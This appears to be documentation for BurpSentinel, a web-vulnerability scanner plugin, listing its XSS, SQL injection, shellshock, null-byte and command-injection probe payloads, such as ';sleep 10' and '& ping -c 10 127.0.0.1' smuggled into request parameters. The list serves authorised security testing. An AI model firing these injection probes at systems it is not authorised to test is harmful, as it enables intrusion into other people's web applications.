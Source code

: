 = BurpSentinel Payloads

Based on my presentation on BSidesVienna 2014: http://www.slideshare.net/nibod/bsides-viennasentinel-v04
A short description of the payloads used by BurpSentinel. The payloads are developed to be as efficient as possible. There should be no unecessary payloads. 

== XSS

If the web app returns <p>", it is vulnerable to XSS. 

For tag based injection:
[source]
----
%3Cp%3E%22
<p>"
----

Both of the above will be sent like written above. The 2nd, unencoded version will be not exploitable in real life if the parameter is in GET (HTTP URL).

For tag value based injection:

[source]
----
%22%3D 
"=
----

Both of the above will be sent like written above. The 2nd, unencoded version will be not exploitable in real life if the parameter is in GET (HTTP URL).

== SQL

The SQL tests are positive-based. The BREAK request should return another response than the original request. If not, we will not perform any additional scans. If one of the follow up request is identical to the original request, the webapp is most likely vulnerable to SQLi. 

=== SQLu

The old SQL tests:

[source]
----
'BREAK"
        
OR 41=41
' OR '41'='41
" OR "41"="41

/**/

) OR (41=41
') OR ('41'='41
") OR ("41"="41"
----

If the attack vector is in POST (HTTP body), try each of the above with and without URL encoding. For GET (HTTP URL), just use URL encoding.

=== SQLs

The new SQL tests:

[source]
----
'BREAK"

ORIG+1-1
ORIG'+0+'0

ORIG[0]' || 'ORIG[1-END]
ORIG[0]' + 'ORIG[1-END]
ORIG[0]' 'ORIG[1-END]
/**/ORIG
----

If the attack vector is in POST (HTTP body), try each of the above with and without URL encoding. For GET (HTTP URL), just use URL encoding.

== Other

The tests include command execution tests, and also shellshock. Additionally it will test null bytes (%00) and tries file inclusion positive test.

[source]
----
.\
./
() { :;}; sleep 10
%00
;sleep 10
\" ;sleep 10
';sleep 10
|sleep 10
& ping -c 10 127.0.0.1
\" & ping -c 10 127.0.0.1
' & ping -c 10 127.0.0.1
----



